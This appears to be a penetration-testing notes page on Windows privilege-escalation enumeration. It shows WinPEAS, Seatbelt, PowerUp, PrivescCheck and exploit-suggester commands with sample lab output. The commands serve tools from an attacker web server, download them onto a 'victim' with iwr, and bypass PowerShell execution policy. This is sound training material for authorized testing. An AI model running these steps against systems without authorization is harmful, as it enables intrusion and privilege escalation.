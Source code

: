# Automated Enumeration

## WinPEAS

{% code title="On the kali" overflow="wrap" lineNumbers="true" %}
```
sudo apt install peass
cp /usr/share/peass/winpeas/winPEASx64.exe .
python3 -m http.server 80
```
{% endcode %}

{% code title="On the victim" overflow="wrap" lineNumbers="true" %}
```
PS:> iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
.\winPEAS.exe
```
{% endcode %}

{% code title="" overflow="wrap" lineNumbers="true" %}
```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> .\winPEASx64.exe > outputfile.exe

```
{% endcode %}

{% embed url="https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS" %}

## Seatbelt

{% code title="" overflow="wrap" lineNumbers="true" %}
```
PS:> iwr -uri http://192.168.45.189/Seatbelt.exe -Outfile Seatbelt.exe
./Seatbelt -group=all
```
{% endcode %}

## JAWS

## PowerUp

### PWK2024

{% code title="Import PowerUp.ps1 and execute Get-ModifiableServiceFile" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\dave> iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1

PS C:\Users\dave> powershell -ep bypass
...
PS C:\Users\dave>  . .\PowerUp.ps1

PS C:\Users\dave> Get-ModifiableServiceFile

...

ServiceName                     : mysql
Path                            : C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
ModifiableFile                  : C:\xampp\mysql\bin\mysqld.exe
ModifiableFilePermissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
ModifiableFileIdentityReference : BUILTIN\Users
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'mysql'
CanRestart                      : False
```
{% endcode %}

{% code title="Error from AbuseFunction" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\dave> Install-ServiceBinary -Name 'mysql'

Service binary 'C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql' for service mysql not
modifiable by the current user.
At C:\Users\dave\PowerUp.ps1:2178 char:13
+             throw "Service binary '$($ServiceDetails.PathName)' for s ...
+             ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OperationStopped: (Service binary ...e current user.:String) [], RuntimeException
    + FullyQualifiedErrorId : Service binary 'C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini
   mysql' for service mysql not modifiable by the current user.
```
{% endcode %}

{% code title="Analyzing the function ModifiablePath" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\dave> $ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe' | Get-ModifiablePath -Literal

PS C:\Users\dave> $ModifiableFiles

ModifiablePath                IdentityReference Permissions
--------------                ----------------- -----------
C:\xampp\mysql\bin\mysqld.exe BUILTIN\Users     {WriteOwner, Delete, WriteAttributes, Synchronize...}

PS C:\Users\dave> $ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe argument' | Get-ModifiablePath -Literal

PS C:\Users\dave> $ModifiableFiles

ModifiablePath     IdentityReference                Permissions
--------------     -----------------                -----------
C:\xampp\mysql\bin NT AUTHORITY\Authenticated Users {Delete, WriteAttributes, Synchronize, ReadControl...}
C:\xampp\mysql\bin NT AUTHORITY\Authenticated Users {Delete, GenericWrite, GenericExecute, GenericRead}

PS C:\Users\dave> $ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe argument -conf=C:\test\path' | Get-ModifiablePath -Literal 

PS C:\Users\dave> $ModifiableFiles
```
{% endcode %}

### [#powerup.ps1](unquoted-service-path.md#powerup.ps1 "mention")

### Old

PowerUp is a PowerShell script that searches common privilege escalation on the target system. You can run it with the `Invoke-AllChecks` option that will perform all possible checks on the target system or use it to conduct specific checks (e.g. the `Get-UnquotedService` option to only look for potential unquoted service path vulnerabilities).

**Reminder**: To run PowerUp on the target system, you may need to bypass the execution policy restrictions. To achieve this, you can launch PowerShell using the command below.

\


Running PowerUp.ps1 on the Target System

```shell-session
C:\Users\user\Desktop>powershell.exe -nop -exec bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\user\Desktop> Import-Module .\PowerUp.ps1
PS C:\Users\user\Desktop> Invoke-AllChecks

[*] Running Invoke-AllChecks


[*] Checking if user is in a local group with administrative privileges...
```

\


![](<../../../.gitbook/assets/image (5).png>)

{% embed url="https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc" %}

[PrivescCheck.ps1](https://github.com/itm4n/PrivescCheck/blob/master/PrivescCheck.ps1)

```
. .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended
```

## Windows Exploit Suggester

Update the databases&#x20;

`./windows-exploit-suggester.py --update` &#x20;

To use the script, you will need to run the `systeminfo` command on the target system. Do not forget to direct the output to a .txt file you will need to move to your attacking machine.

Once this is done, windows-exploit-suggester.py can be run as follows;

`./windows-exploit-suggester.py --database 2021-09-21-mssb.xls --systeminfo sysinfo_output.txt`

A newer version of Windows Exploit Suggester is available [here](https://github.com/bitsadmin/wesng). Depending on the version of the target system, using the newer version could be more efficient.

{% embed url="https://github.com/AonCyberLabs/Windows-Exploit-Suggester" %}

**Metasploit**\



If you already have a Meterpreter shell on the target system, you can use the `multi/recon/local_exploit_suggester` module to list vulnerabilities that may affect the target system and allow you to elevate your privileges on the target system.
